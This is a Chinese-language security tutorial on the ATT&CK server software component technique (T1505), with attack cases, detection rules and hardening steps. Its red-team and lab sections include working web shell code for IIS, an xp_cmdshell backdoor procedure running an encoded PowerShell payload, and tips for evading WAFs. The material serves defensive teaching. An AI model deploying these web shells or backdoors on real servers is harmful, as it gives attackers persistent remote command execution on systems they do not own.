

# 服务器软件组件 (T1505)

## 一句话通俗理解

> 就像在你公司的"前台接待"里安插了一个间谍——Web服务器、数据库、邮件服务器这些核心服务每天都在运行，攻击者在里面植入后门组件，就像在前台装了个窃听器，所有进出的信息都被监控。

## 难度等级

⭐⭐⭐ 较高（需要服务器管理员权限或应用漏洞）

## 技术描述

攻击者可能滥用合法的服务器应用程序组件以在受损系统上建立持久访问。与可能引起注意的新进程或服务不同，攻击者将恶意代码注入现有的服务器软件组件中。这种方法提供两个关键优势：恶意代码在受信任的、签名的进程中运行，并且作为合法应用程序生命周期的一部分在重启后持续存在。

该技术针对目标环境中已经安装和运行的服务器端软件。通过钩入或替换SQL数据库、邮件服务器、Web服务器和终端服务等应用程序的组件，攻击者可以确保每当父服务启动时其代码就会执行。因为这些组件通常是基础设施软件的一部分，监控力度不如用户工作站，它们提供了长期的持久性机制。

## 子技术列表

| 子技术ID | 名称 | 说明 | 目标平台 |
|----------|------|------|----------|
| T1505.001 | SQL存储过程 | 创建恶意数据库存储过程 | SQL Server/MySQL |
| T1505.002 | 传输代理 | 安装恶意邮件传输代理 | Exchange Server |
| T1505.003 | Web Shell | 部署Web后门脚本 | IIS/Apache/Nginx |
| T1505.004 | IIS组件 | 安装恶意IIS模块 | IIS |
| T1505.005 | 终端服务 | 修改RDP组件 | Windows RDS |

## 攻击流程



```
1. 获取服务器访问权限（通过漏洞利用或凭据窃取）
    ↓
2. 选择持久化方式：
   - Web Shell（最常见）
   - SQL存储过程
   - 邮件传输代理
   - IIS模块
    ↓
3. 部署恶意组件
    ↓
4. 配置组件与C2通信
    ↓
5. 等待服务器重启或用户访问
    ↓
6. 恶意代码自动执行
```

## 真实案例

### 案例1：APT41使用Web Shell进行持久化
- **时间**: 2017-2021年
- **目标**: 全球医疗、科技和电信行业
- **手法**: APT41广泛使用ANTWORD和BLUEBEAM web shells来维持对受害者的持久访问。攻击者通过SQL注入漏洞上传web shells到IIS web服务器，提供远程命令执行和文件管理功能。
- **链接**: https://cloud.google.com/blog/topics/threat-intelligence/apt41-arisen-from-dust

### 案例2：APT29部署Web Shell和传输代理
- **时间**: 2020-2021年
- **目标**: 美国和欧洲政府机构
- **手法**: APT29在针对COVID-19研究的攻击中使用web shells维持持久化，部署了定制的web shells在IIS服务器上，还部署了恶意Outlook传输代理来拦截邮件。
- **链接**: https://attack.mitre.org/groups/G0016/

### 案例3：Volt Typhoon利用Web Shell
- **时间**: 2023-2024年
- **目标**: 美国关键基础设施
- **手法**: Volt Typhoon在受感染的Web服务器上部署web shells，使用这些后门维持持久访问并进行横向移动。
- **链接**: https://www.cisa.gov/news-events/cybersecurity-advisories/aa24-038a

### 案例4：HAFNIUM利用Exchange漏洞
- **时间**: 2021年
- **目标**: 全球Exchange Server用户
- **手法**: HAFNIUM利用ProxyLogon漏洞（CVE-2021-26855等）入侵Exchange服务器，部署web shells和恶意传输代理以维持持久访问。
- **链接**: https://www.microsoft.com/en-us/security/blog/2021/03/02/hafnium-targeting-exchange-servers/

## 红队视角

> ⚠️ **免责声明**：以下内容仅用于合法的安全测试、渗透测试和教育目的。未经授权对他人系统进行测试是违法行为。

**攻击优势**：
- Web Shell在受信任的Web服务器进程中运行
- SQL存储过程在数据库启动时自动加载
- 传输代理在邮件流中实时执行

**常用工具**：
```cmd
REM Web Shell部署（China Chopper等）
echo "<%@ Page Language='C#' %><%System.Diagnostics.Process.Start(Request['cmd']);%>" > C:\inetpub\wwwroot\shell.aspx

REM SQL存储过程
CREATE PROCEDURE sp_backdoor AS
EXEC xp_cmdshell 'powershell.exe -enc <base64payload>'

REM IIS模块安装
appcmd.exe install module /name:MaliciousModule /image:C:\temp\malicious.dll
```

**实战技巧**：
- 使用加密的Web Shell避免被WAF检测
- 将Web Shell命名为合法页面名称
- 配合T1190（漏洞利用）使用，通过应用漏洞部署

## 蓝队视角

**防御重点**：
- 定期扫描Web目录中的异常文件
- 监控SQL存储过程的创建
- 审计IIS模块和传输代理

**常见盲点**：
- 只关注文件系统，忽略数据库内部对象
- 未监控IIS模块的注册
- 缺乏对邮件传输代理的审计

## 检测建议

### 网络层检测

**检测方法：** 监控Web服务器（w3wp.exe、httpd、nginx）的异常出站连接和Web Shell访问流量。

**具体规则/命令示例：**
```bash
# Suricata规则检测Web Shell访问
alert http $EXTERNAL_NET any -> $HOME_NET any (msg:"Web Shell Access Detected"; content:"cmd=|exec=|system("; http_uri; classtype:web-application-attack; sid:1000211; rev:1;)
```

### 主机层检测

**检测方法：** 监控Web目录中的异常文件创建、SQL Server中的存储过程创建和IIS模块注册。

**Windows事件ID：**
- Sysmon事件ID 11：文件创建（监控Web目录中的.php、.asp、.aspx文件）
- Sysmon事件ID 7：DLL加载（监控w3wp.exe中加载的可疑DLL）
- 事件ID 4688：进程创建（监控IIS工作进程创建的异常子进程）

**Linux日志：**
- 日志文件：`/var/log/apache2/access.log`（Apache访问日志）
- 日志文件：`/var/log/mysql/mysql.log`（MySQL查询日志）
- 关键字段：异常的SQL查询语句（xp_cmdshell、sp_configure等）

**具体命令示例：**
```bash
# 查找Web目录中最近修改的脚本文件
find /var/www/html -name "*.php" -mtime -7

# 检查SQL Server中启用的扩展存储过程
SELECT * FROM sys.configurations WHERE name = 'xp_cmdshell'

# 列出IIS加载的模块
%windir%\system32\inetsrv\appcmd list modules
```

### 应用层检测

**Sigma规则示例：**
```yaml
title: SQL Server xp_cmdshell启用检测
status: experimental
description: 检测SQL Server中xp_cmdshell扩展存储过程的启用
logsource:
    category: process_creation
    product: windows
detection:
    selection:
        Image|endswith: '\sqlservr.exe'
        CommandLine|contains: 'xp_cmdshell'
    condition: selection
level: high
tags:
    - attack.t1505.001
```

## 缓解措施

### 优先级1：关键措施

**措施名称：** Web服务器与数据库加固

**具体实施步骤：**
1. 限制Web目录的写入权限，Web根目录设置为只读（除上传目录外）
2. 禁用不必要的数据库功能（如SQL Server的xp_cmdshell、OLE Automation）
3. 对Exchange传输代理注册实施严格的变更控制审批流程
4. 使用WAF（Web应用防火墙）检测和阻止Web Shell访问（基于特征和行为分析）

### 优先级2：重要措施

**措施名称：** 服务器组件完整性监控

**具体实施步骤：**
1. 定期扫描Web目录中的未知脚本文件，检查与基线哈希值的差异
2. 使用AppLocker限制IIS工作进程（w3wp.exe）的DLL加载来源
3. 配置SQL Server审计日志，记录存储过程创建和高级选项修改
4. 使用文件完整性监控（FIM）工具检测Web服务器和数据库服务器的关键文件变更

**配置示例：**
```bash
# 禁用SQL Server xp_cmdshell
EXEC sp_configure 'show advanced options', 0;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 0;
RECONFIGURE;

# 使用FIM监控Web目录
auditctl -w /var/www/html -p wa -k web_directory_change
```

## 动手实验

> ⚠️ **重要提示**：所有实验必须在隔离的实验室环境中进行，禁止对未授权的真实系统进行测试。

### 实验1：简单Web Shell
```aspx
<%@ Page Language="C#" %>
<%
string cmd = Request["cmd"];
if (cmd != null) {
    System.Diagnostics.Process proc = new System.Diagnostics.Process();
    proc.StartInfo.FileName = "cmd.exe";
    proc.StartInfo.Arguments = "/c " + cmd;
    proc.StartInfo.RedirectStandardOutput = true;
    proc.StartInfo.UseShellExecute = false;
    proc.Start();
    Response.Write("<pre>" + proc.StandardOutput.ReadToEnd() + "</pre>");
}
%>
```

### 实验2：SQL存储过程
```sql
-- 创建测试存储过程
CREATE PROCEDURE sp_test_persistence
AS
BEGIN
    EXEC xp_cmdshell 'echo SQL persistence test >> C:\temp\sql_test.txt';
END;

-- 使用SQL Agent调度执行
```

### 实验3：使用Atomic Red Team测试
```powershell
# 执行T1505测试
Invoke-AtomicTest T1505
```

## 术语解释

| 术语 | 英文原名 | 通俗解释 |
|------|----------|----------|
| Web Shell | Web Shell | Web服务器上的后门脚本，通过浏览器就能远程执行命令 |
| 存储过程 | Stored Procedure | 数据库中预编译的SQL代码块，可以在数据库中执行 |
| 传输代理 | Transport Agent | Exchange邮件传输管道中的处理组件 |
| IIS | Internet Information Services | 微软Web服务器软件 |
| xp_cmdshell | xp_cmdshell | SQL Server中执行操作系统命令的扩展存储过程 |
| WAF | Web Application Firewall | Web应用防火墙，保护Web应用免受攻击 |

## 参考资料

- [MITRE ATT&CK T1505 服务器软件组件](https://attack.mitre.org/techniques/T1505/)
- [APT41分析 - Google Cloud](https://cloud.google.com/blog/topics/threat-intelligence/apt41-arisen-from-dust)
- [HAFNIUM Exchange漏洞分析 - Microsoft](https://www.microsoft.com/en-us/security/blog/2021/03/02/hafnium-targeting-exchange-servers/)
- [Volt Typhoon Advisory - CISA](https://www.cisa.gov/news-events/cybersecurity-advisories/aa24-038a)
- [Atomic Red Team - T1505](https://github.com/redcanaryco/atomic-red-team/tree/master/atomics/T1505)
